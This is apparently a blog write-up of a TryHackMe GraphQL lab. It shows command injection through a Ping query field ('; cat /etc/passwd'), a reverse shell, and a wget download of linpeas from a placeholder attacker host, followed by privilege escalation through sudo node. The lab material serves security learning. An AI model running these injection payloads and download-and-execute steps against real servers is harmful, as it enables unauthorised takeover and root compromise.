 ```yaml
---
title: Using GraphQL Maliciously
published: true
---
```

Hey Hackers, Today's article will be about GraphQL Lab by tryhackme. Before we get started with the writeup, let's just get to know what is GraphQL and how we can exploit it :D
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/Graphql_logo.png"/>
</p>

**What is GraphQL?**   
GraphQL is a query language that allows to access data from the database via single API endpoint. As compared to REST API, where there are seperate endpoint for each calling the user makes. With GraphQL, we only need one endpoint to access all data.   
There are two operations in GraphQL API, they are: -   
1. Query   
2. Mutation   

Query is used to read data while mutation is used to modify data. You can learn more about GraphQL at this link ```https://graphql.org```   

Well now you know what GraphQL, lets' get started.   

Start up the machine      
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/1_start_machine.png"/>   
</p>  

After starting the machine, we need to perform some enumeratation   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/2_nmap.png"/>
</p>  
   
By using, nmap we got to know port 80 is open. Let's check what is on port 80.   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/3_open_port_80.png"/>
</p>  

On port 80, we found that Graphiql interface is enabled, thus allowing us to run graphql query. We wrote the graphql query in the interface in order to know what queries are available   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/4_schema_fields.png"/>
</p>

From the screenshot above, the only query that was interesting was Ping Query
The reason Ping query is interesting is because it can be used to create remote code execution and takeover the server :D   
Let's check what fields are available for the query   
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/5_examining_ping_fields.png" />
</p>   
There are two availble fields that are being used those are ```ip``` & ```output```   
Let's give it a test of how it works. The query that i injected is: -   
```{   
   Ping(ip:"127.0.0.1"){   
     ip   
     output   
  }   
}```      
We get the output that it makes the call to the localhost.   
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/6_Testing_ping_field.png" />
</p>   
let's try to break the query by inserting a semicolon and check if we can read the passwd file since the backend is a linux server running.The payload being used in the query is : -    
```{   
   Ping(ip:"; cat /etc/passwd"){   
     ip   
     output   
  }   
}```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/7_etc_passwd.png">
</p>   
We are able to read the passwd file. That is a good sign, let's start making our reverse shell and get an rce :p   
Let's open our ncat connection and start working on our payload.   
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/8_ncat_listener.png">
</p>   
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/9_reverse_shell.png">
</p>      

Reverse shell got executed and we got a remote code execution. Thus, compromising the server    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/10_server_hacked.png">
</p>   
Now we got a reverse shell, we need to now escalate our privileges to become root. Lets send our linpeas script to the compromised server to check what abnomalies can be exploited to become root. We run our server where our linpeas is located.    
```python3 -m http.server```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/11_opening_server_for_linpeas.png">
</p>    
Now on the victim server we will download linpeas script being hosted on my server. The following is the command for downloading the script using wget: -    
```wget http://<attacker-ip>:8000/linpeas.sh```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/12_installing_linpeas.png">    
</p>    
once linpeas script is downloaded in the victim machine, we will make the file executable and run the script. The following are the commands.    
```chmod + x linpeas.sh```    
```./linpeas.sh```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/13_running_linpeas.png">
</p>    
Analyzing the results from linpeas script, we found a potential loophole that can help us gain root access. The one we found is that we can run node as sudo.    
<p>
<img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/14_found_potential_loophole.png">
</p>    
By going over PayloadsAllTheThings, i copied the payload from there and modified it with our ip address and the port we chose.
Then i hosted on my server and then remotely downloading the payload on the remote hacked server.    
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/16_reverse_shell_server_js.png">
</p>    
After that we ran our script while at the same time on our other terminal netcat is running in order to get a reverse shell and gain access to the server as root.    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/17_downloading_server_js.png">
</p>    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/19_root_access.png">
</p>
